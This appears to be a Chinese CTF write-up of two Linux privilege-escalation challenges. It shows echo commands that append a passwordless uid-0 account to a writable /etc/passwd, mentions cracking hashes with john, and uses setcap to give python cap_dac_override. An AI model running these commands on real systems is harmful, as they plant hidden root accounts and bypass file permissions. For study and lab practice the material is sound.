




Secrets in Shadow（solved）

/etc/passwd 和 /etc/shadow 都可写
vim，vi，nano都没有，因此不能直接修改ctf的uid。
只修改passwd
1 | echo "a::0:0::/home/ctf:/bin/bash" >>/etc/passwd |
第二个字段不是x，表示不用密码登录。
shadow和passwd都改
由题目知道用户ctf的密码是ctf，新增一条一样的就好了。
1 | echo "c:x:0:0::/home/ctf:/bin/bash" >>/etc/passwd |

使用john爆破密码

strange python（unsolved）
知识点：linux capabilities
参考链接：
https://icloudnative.io/posts/linux-capabilities-why-they-exist-and-how-they-work/
https://linux.die.net/man/3/cap_from_text
https://linux-audit.com/linux-capabilities-101/
capabilities是用来对root权限进行更细的划分的。
查看哪些文件有cap权限
1 | getcap -r 2>/dev/null -r表示递归搜索 |
设置cap权限。
1 | setcap "cap_dac_override=ep" /bin/python3.10 |
删除
1 | setcap -r /bin/python3.10 |
此时python有该权限，能读写文件。
